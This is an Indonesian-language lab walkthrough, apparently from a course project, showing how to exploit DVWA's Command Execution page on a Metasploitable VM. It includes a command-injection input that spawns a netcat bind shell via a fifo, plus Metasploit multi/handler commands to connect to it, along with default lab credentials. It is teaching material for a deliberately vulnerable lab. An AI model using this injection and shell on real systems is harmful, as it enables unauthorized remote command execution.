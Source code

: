 ![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/1.PNG)

Jika Berhasil , maka akan didapatkan ip dalam rentang 10.0.1.100 sampai 10.0.1.200 :

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/2.PNG)

3. Lakukan Hal tersebut pada Virtual OS backtrack dan viertual OS ubuntu
4. Setting security DVWA menjadi Low
Buka ip Virtual OS metasploitable pada browser di virtual OS Ubuntu. contoh = 10.0.1.100/dvwa

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/3.PNG)

Login dengan username : admin , password : password

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/4.PNG)

Klik Tab DVWA Security, Pilih Low, SUBMIT

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/5.PNG)
## Testing
### Lesson 4: Using Metasploit with Command Execution

1. Jalankan Netcat pada Metasploit
Klik tab Command Execution

![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/6.PNG)

Jalankan perintah
```
http://10.0.1.100;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe
```
Ket = 10.0.1.100 -> ip Metasploitable
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/7.PNG)

2. Start VIrtual OS backtrack, login dengan username : root, password: toor
3. Buka start Menu ->BackTrack->Exploitation Tools->Network Exploitation tool->Metasploit Framework -> msf console
![alt text](https://github.com/hendradn/pksj2017/blob/master/FP/Screenshoot/8.PNG)

4. Jalankan perintah-perintah berikut secara bergantian
```
use multi/handler
set PAYLOAD linux/x86/shell/bind_tcp
show options
set RHOST 10.0.1.100
```

5. Jalankan perintah 
```
exploit
```
